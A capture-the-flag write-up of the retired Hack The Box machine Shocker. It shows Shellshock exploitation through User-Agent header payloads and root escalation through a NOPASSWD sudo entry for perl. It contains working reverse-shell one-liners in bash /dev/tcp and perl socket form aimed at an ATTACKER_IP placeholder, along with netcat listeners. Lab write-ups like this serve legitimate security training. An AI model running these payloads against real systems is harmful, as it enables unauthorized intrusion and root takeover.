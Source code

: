 # Hack The Box — Shocker (Linux, Easy) — Writeup

## Table of Contents
1. General Info
2. Objectives
3. Enumeration
4. Exploitation (Shellshock)
5. Initial shell (user)
6. Privilege escalation
7. Post-exploitation proof
8. Cleanup
9. Key takeaways
10. Artifacts / Screenshots (proofs)

---

## 1. General Info
Machine: Shocker  
Platform: Hack The Box (retired)  
OS: Linux (Ubuntu)  
Difficulty: Easy  
Attack chain: Shellshock (CGI) → Reverse shell (user `shelly`) → `sudo` abuse (`/usr/bin/perl`) → root  
Flags: user.txt and root.txt (both retrieved and documented)

---

## 2. Objectives
- Enumerate exposed services and web resources.  
- Identify and exploit a remote code execution (RCE) vector (Shellshock) in a CGI script.  
- Obtain an interactive shell as a low-privilege user.  
- Escalate privileges to root using NOPASSWD `sudo` for `/usr/bin/perl`.  
- Document commands and provide screenshots as evidence.

---

## 3. Enumeration

Nmap command used (replace placeholders when reproducing):
$ sudo nmap -sC -sV -Pn -oN nmap/full <TARGET_IP>

Key finding: 80/tcp — Apache httpd 2.4.18 (Ubuntu) — CGI presence likely; older versions indicate Shellshock testing priority.

Screenshot (Nmap output):
![01_nmap_results](assets/screenshots/01_nmap_results.png)

Directory brute force on CGI:
$ gobuster dir -u http://<TARGET_IP>/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x sh,pl,cgi,txt

Found: /user.sh reachable at /cgi-bin/user.sh (HTTP 200).  
Screenshot (gobuster):
![02_gobuster_cgi](assets/screenshots/02_gobuster_cgi.png)

Confirm script execution:
$ curl -i http://<TARGET_IP>/cgi-bin/user.sh

Output shows uptime — confirms server executes the script (CGI).  
Screenshot (curl output):
![03_curl_user_sh](assets/screenshots/03_curl_user_sh.png)

---

## 4. Exploitation (Shellshock)

Rationale: Bash-based CGI on outdated server → Shellshock (CVE-2014-6271) likely exploitable. Typical injection via HTTP header (User-Agent, Referer, Cookie).

Verification with Burp Repeater (example payloads):

Payload to check whoami (User-Agent header):
() { :; }; echo; /bin/bash -c 'whoami'
Response: "shelly" — command executed by CGI process.
Screenshot:
![04_burp_repeater_whoami_req_resp](assets/screenshots/04_burp_repeater_whoami_req_resp.png)

Payload to check id (User-Agent header):
() { :; }; echo; /bin/bash -c 'id'
Response shows uid=1000(shelly) and group membership (adm, lxd, etc.).
Screenshot:
![05_burp_repeater_id_req_resp](assets/screenshots/05_burp_repeater_id_req_resp.png)

Payload to check working directory:
() { :; }; echo; /bin/bash -c 'pwd'
Response: /usr/lib/cgi-bin
Screenshot:
![06_burp_repeater_pwd_req_resp](assets/screenshots/06_burp_repeater_pwd_req_resp.png)

Payload to list files:
() { :; }; echo; /bin/bash -c 'ls'
Response lists user.sh
Screenshot:
![07_burp_repeater_ls_req_resp](assets/screenshots/07_burp_repeater_ls_req_resp.png)

Payload to get system info:
() { :; }; echo; /bin/bash -c 'uname -a'
Response shows kernel and hostname (Shocker).
Screenshot:
![08_burp_repeater_uname_req_resp](assets/screenshots/08_burp_repeater_uname_req_resp.png)

Reverse shell payload (User-Agent) used to get an interactive shell back to the attacker machine (replace <ATTACKER_IP>):
() { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'

Burp payload screenshot:
![09_burp_repeater_revsh_req](assets/screenshots/09_burp_repeater_revsh_req.png)

Start listener on attacker:
$ nc -lvnp 4444

Listener accepted connection — low-privileged shell as shelly.
Screenshot (nc user shell):
![10_nc_user_shell_4444_conn](assets/screenshots/10_nc_user_shell_4444_conn.png)

---

## 5. Initial shell (user)

Stabilize the shell to a PTY for interactivity:
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Then: Ctrl+Z ; stty raw -echo ; fg ; export TERM=xterm

Essential checks (user context):
$ whoami        # -> shelly
$ id            # -> uid=1000(shelly) gid=1000(shelly) groups=...
$ pwd           # -> /usr/lib/cgi-bin

Screenshot (user checks):
![11_user_shell_whoami_id_pwd](assets/screenshots/11_user_shell_whoami_id_pwd.png)

---

## 6. Privilege escalation

Check sudo rights:
$ sudo -l

Output:
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

This indicates a direct escalation vector: perl can be run as root without password.
Screenshot:
![12_sudo_l_shelly](assets/screenshots/12_sudo_l_shelly.png)

Two reliable escalation options:

Option A — direct root shell:
$ sudo perl -e 'exec "/bin/bash";'

Option B — reverse shell as root (recommended for clean separate listener):
1) On attacker:
$ nc -lvnp 4445
2) On target (shelly):
$ sudo perl -e 'use Socket;$i="<ATTACKER_IP>";$p=4445;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'

Listener shows root shell connection.
Screenshot:
![13_nc_root_shell_4445_conn](assets/screenshots/13_nc_root_shell_4445_conn.png)

---

## 7. Post-exploitation proof

Validate root context:
$ whoami       # -> root
$ id           # -> uid=0(root) gid=0(root)
$ hostname     # -> Shocker
$ pwd          # working directory

Screenshot (root verification):
![14_root_whoami_id](assets/screenshots/14_root_whoami_id.png)

Capture root flag:
$ cat /root/root.txt
Root flag captured (masked in public evidence). Screenshot (masked):
![15_root_flag](assets/screenshots/15_root_flag.png)

Capture user flag:
$ cat /home/shelly/user.txt
User flag captured (masked for public report): 9f4e2a...b7c3
---

## 8. Cleanup
- Closed interactive shells (exit).  
- Stopped local listeners.  
- No persistent changes made to target beyond transient command execution.  
- Sensitive artifacts (full flag values) are stored privately and masked in public content.

---

## 9. Key takeaways
- Legacy CGI endpoints with outdated Bash are high risk for Shellshock RCE.  
- NOPASSWD sudo entries for common interpreters (perl, python) are immediate privilege escalation vectors.  
- Use automated detection (Nmap NSE) and manual verification (Burp Repeater) combined for safe exploitation.  
- Redact or mask full flags in public artifacts; preserve complete proofs offline.

---

## 10. Artifacts / Screenshots (ordered)
All artifacts are stored under assets/screenshots/ in the repository. File references below correspond to the uploaded images:

01_nmap_results.png — Nmap output showing services and versions  
02_gobuster_cgi.png — gobuster finding /cgi-bin/user.sh  
03_curl_user_sh.png — curl output showing uptime (user.sh)  
04_burp_repeater_whoami_req_resp.png — Burp whoami request/response  
05_burp_repeater_id_req_resp.png — Burp id request/response  
06_burp_repeater_pwd_req_resp.png — Burp pwd request/response  
07_burp_repeater_ls_req_resp.png — Burp ls request/response  
08_burp_repeater_uname_req_resp.png — Burp uname -a request/response  
09_burp_repeater_revsh_req.png — Burp repeater with reverse shell payload (User-Agent)  
10_nc_user_shell_4444_conn.png — nc listener: user shell connected (shelly)  
11_user_shell_whoami_id_pwd.png — user shell context (whoami, id, pwd)  
12_sudo_l_shelly.png — sudo -l output showing NOPASSWD: /usr/bin/perl  
13_nc_root_shell_4445_conn.png — nc listener: root shell connected  
14_root_whoami_id.png — root shell context verification (whoami/id/hostname/pwd)  
15_root_flag.png — root flag screenshot (masked for public)

---

## Reproduction notes and caution
- Replace <TARGET_IP> and <ATTACKER_IP> placeholders with actual addresses when reproducing steps.  
- Do not run these commands against systems you do not own or have explicit written authorization to test.  
- Screenshots in this report are the evidence captured during the assessment; flags are masked in public copies.

End of writeup.
